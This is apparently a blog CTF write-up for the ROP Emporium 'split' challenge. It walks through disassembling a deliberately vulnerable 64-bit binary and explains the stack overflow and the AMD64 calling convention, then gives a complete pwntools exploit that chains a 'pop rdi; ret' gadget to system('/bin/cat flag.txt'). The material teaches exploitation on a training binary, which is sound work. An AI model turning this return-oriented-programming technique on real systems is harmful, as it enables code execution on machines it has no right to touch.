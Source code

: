 ```yaml
---
layout: post
title: Ropemporium split challenge
date: 2021-12-17 21:07 +0300
categories: [ropemporium]
tags: [ctf, ropemporium]
---
```


The elements that allowed you to complete ret2win are still present, they've just been split apart. Find them and recombine them using a short ROP chain

The goal of this challenge is to understand how function arguments are passed in 64bit machine when doing return oriented programming. The binary can be downloaded from the authors website [ropemporium](https://ropemporium.com).

First we check the binary protections enabled. Only **NX** (Not executable) is enabled on the device according to `checksec` binary utility as shown in the image below.

```bash
vx@archie:split$ checksec --file=split
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

For analysis of binary we use `gdb` to analyze the functions present in the binary in order to understand the logic. We disassemble **pwnme** function as shown in the image below.The function looks familiar as for the ret2win function.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400810
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x40083c
   0x0000000000400715 <+45>:	mov    eax,0x0
   0x000000000040071a <+50>:	call   0x400570 <printf@plt>
   0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
   0x0000000000400723 <+59>:	mov    edx,0x60
   0x0000000000400728 <+64>:	mov    rsi,rax
   0x000000000040072b <+67>:	mov    edi,0x0
   0x0000000000400730 <+72>:	call   0x400590 <read@plt>
   0x0000000000400735 <+77>:	mov    edi,0x40083f
   0x000000000040073a <+82>:	call   0x400550 <puts@plt>
   0x000000000040073f <+87>:	nop
   0x0000000000400740 <+88>:	leave
   0x0000000000400741 <+89>:	ret
End of assembler dump.
(gdb)
```

From the above code, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values that is present in the memory area specified. The memory region we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the boundary of base pointer address in the stack.

![](/assets/images/ropemporium/stack.png)

Next function is **read** function, which reads for user input from the standard input file descriptor and stores in specified buffer. From disassembled code, we are reading **0x60** bytes from the user input and storing it in our buffer. This means we are reading more than what the buffer can hold, therefore leading to stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);
```

For this challenge we don't have a `ret2win` function which we are to return to. From the disassembly of the binary we have an interesting function called **usefulFunction** responsible for listing the files in the directory when called.

```nasm
(gdb) disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:	push   rbp
   0x0000000000400743 <+1>:	mov    rbp,rsp
   0x0000000000400746 <+4>:	mov    edi,0x40084a
   0x000000000040074b <+9>:	call   0x400560 <system@plt>
   0x0000000000400750 <+14>:	nop
   0x0000000000400751 <+15>:	pop    rbp
   0x0000000000400752 <+16>:	ret
End of assembler dump.
(gdb) x/s 0x40084a
0x40084a:	"/bin/ls"
(gdb)
```

Goal is to pass a different string to the `system` function instead of **"/bin/ls"**

From the author's hint, we can look for useful hints in the binary using either radare2.

> Now that you've gathered the elements of your exploit you can start to piece them together, you want to call system() with the **"/bin/cat flag.txt"** string as the only argument. You'll also have to start dealing with the differences between the various architectures' calling conventions.

Analyzing binary using `radare2`, we can use **iz** command to look for strings. The goal is to read the flag from the system.

```nasm
[0x004005b0]> iz
nth paddr      vaddr      len size section type  string
---------------------------------------------------------------------------------------------
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

```

We have an important string **"/bin/cat flag.txt"** which will enable us to complete our goal. Now we need pass string to system function as follows **system('/bin/cat flag.txt')**.

For building ropchain, we need to understand the calling conventions of **AMD64 ABI**.The calling convention passes the arguments to the registers in the following order **RDI, RSI, RDX, RCX, R8 and R9**.

Because the system function receives one argument, we need to look for one gadget t that we control **rdi** address.

**What are gadgets?**

Gadgets are sequence of instructions that end with `ret` instruction. Because we want to load a value into rdi register, we look for a pop **pop rdi; ret** instruction in order to pass an argument to `system`.

For searching gadget in radare2/rizin, use **/R** command as shown in the image below.

![](/assets/images/ropemporium/split_poprdi.png)
Now we need to chain ropchain exploit as shown in the image below.

![ropchain](/assets/images/ropemporium/popgadget.png)

The goal is to overwrite the return address with the address of **"pop rdi, ret "** and call system function. we need to fill the buffer memory with 32bytes, 8 bytes to overwrite the `rbp` address and 8 bytes to overwrite return address with pop rdi address.

Full exploit of split challenge is;

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process("./split")

system_addr = pwn.p64(0x400560)   #address of system
pop_rdi_ret = pwn.p64(0x004007c3)  # pop rdi; ret gadget
bin_cat_addr = pwn.p64(0x00601060)  #bin cat flag.txt address

payload = b"A" * 32  #fill the buffer
payload += b"B" *8   # overwrite  rbp
payload += pop_rdi_ret # pop rdi gadget
payload += bin_cat_addr # argument passed to the system function
payload += system_addr   #call system

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running python3 code we get a flag.

![](/assets/images/ropemporium/split_flag.png)

> **To avoid the segmentation fault of the above, we can overwrite the rbp address with exit function address in order to exit without segfault.**
